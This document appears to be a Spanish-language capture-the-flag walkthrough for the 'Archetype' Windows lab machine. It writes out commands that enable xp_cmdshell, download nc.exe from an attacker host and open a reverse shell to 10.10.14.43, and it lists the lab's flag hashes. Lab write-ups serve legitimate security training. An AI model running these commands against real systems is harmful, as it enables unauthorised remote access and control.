

# Archetype (Windows)

- Con nmpa se encontro lo siguiente; Por lo que podemos ver que hay una vulnerabilidad con el servicio ms-sql-s y ademas podemos aprovechar el protocolo smb como se ve mas abajo

- Por lo que podemos empezar por ver que podemos encontrar con smbclient; para epemzar procedemos a ver las listas, y ver cuales no necesitan administrador (Son las que no tienen ‘$’ en su nombre).

- Despues de comprobar a cual podemos entrar, entramos y vemos si existe informacion relevante. En este caso se encontro un usuario y su contraseña que podemos utilizar para hacer un ataque para la vulnerabilidad encontrada.

- Procedemos a localizar el binario ‘mssqlclient’ para poder crear una reverse sehell desde el servicio ms-sql-s de la maquina objetivo, para la cual utilizaremos los datos encontrados anteriormente.
    - La estructura del comando es el siguiente: /usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.3.27 -windows-auth
        - Ruta del binario
        - Usuario
        - IP de la maquina objetivo
        - Si la maquina es windows, se agrega
    
    
    
    - Lo que se procede a hacer es habilitar el cmd shell para poder comandar instrucciones. Despues de estar habilitada, se mandara una instruccion para que descargue el binario de netcat a la carpeta de descargas para despues ejecutarla y poder acceder a la consola de la maquina. El comando para que se descargue el binario es el siguiente:
        - xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget [http://10.10.14.43/nc.exe](http://10.10.14.43/nc.exe) -outfile nc.exe"
            - Donde:
            - Es el nombre que se le dara al archivo en la maquina
            - Es el Archivo que se descargara de la maquina atacante a traves de un servicio http
            - Es la ruta donde se almacenara el archivo
            - Es el comando dentro del binario para pode ejecutar instrucciones
    
    
    
    - Pero para poder mandar el archivo de netcat activaremos un servicio http para que pueda descargarlo con la ip del tun que se genera.
        
        
        
    - Ya descargado el archivo netcat, se procede a crear un listener en cualquier puerto e ejecutar el binario dentro de ese puerto para poder crear la reverse shell
    
    
    
    - Ya con el listener, procedemos a ejecutar el siguiente comando:
        - xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.14.43 443”
            - Donde:
            - Puerto
            - IP que se uso para levantar el servicio http
            - ejecutable del binario introducido para crear la reverse shell
        - Esto nos dara el siguiente resultado en el listener creado; lo que significa que existe una reverse shell y podemos proceder a buscar la flag
        
        
        
        - Para poderingresar al admin necesitamos un elevador de permisos, winPEAS nos ayudara en eso, por lo que de la misma manera que introdujimos el binario nc.exe, lo haremos igual con winPEAS. Y ya teniendolo, dentro del listener lo ejecutaremos para obtener las credenciales.
        
        
        
        - Obtendremos el siguiente archivo, por lo cual lo procedemos a leer y asi obtenemos las credenciales del admin
        
        
        
        - Localizamos psexec, y ya con su respectiva ruta, lo ejecutamos con los datos que obtuvimos anteriormente
        
        
        
        - Ya estando dentro, procedemos a buscar la flag del admin
        
        
        
    
    # Flags
    
    sql_svc: 3e7b102e78218e935bf3f4951fec21a3
    
    administrator: b91ccec3305e98240082d4474b848528